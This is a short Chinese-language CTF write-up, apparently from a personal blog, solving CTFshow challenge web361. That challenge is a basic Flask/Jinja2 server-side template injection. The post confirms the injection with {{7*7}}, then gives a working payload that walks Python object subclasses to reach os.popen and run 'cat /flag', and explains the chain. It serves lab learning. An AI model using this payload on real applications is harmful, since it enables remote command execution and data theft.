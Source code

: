```yaml
---
date: 2024-06-01
categories: 
    - CTFshow
tags:
    - CTF
    - SSTI
    - flask
    - jinja2
    - python
    
---
```

# 每日一题 —— [CTFshow]web361 

> 题目地址：<https://ctf.show/challenges#web361-845>

<!-- more -->

这一题就是一道最基本的 flask 模板注入了。根据题目提示，我们可以“名字就是考点”。所以我们传入一个叫做 `name` 的参数，发现我们 `name` 参数的值被渲染在了页面上。

于是我们使用 `{{7*7}}` 尝试一下，发现页面上显示了 `49`。确认了存在模板注入。直接构造 payload:

```
?name={{"".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('cat /flag').read()}}
```

原理可以参照我上一篇博客：[normalssti](https://www.sxrhhh.top/writeups/2024/06/01/%E6%AF%8F%E6%97%A5%E4%B8%80%E9%A2%98--%E5%AE%89%E6%B4%B5%E6%9D%AF-2020normal-ssti/)，在这里我就先简单地提上一嘴。

首先使用 `"".__class__.__base__[0].__subclasses__()` 获取到 `object` 的子类，然后使用 `.__init__.__globals__['popen']` 获得 `os.popen` 方法。在这里我们直接不用任何 bypass 就可以完成 RCE, 挺奇怪的，因为在我的电脑上，空格并不能用来传参。

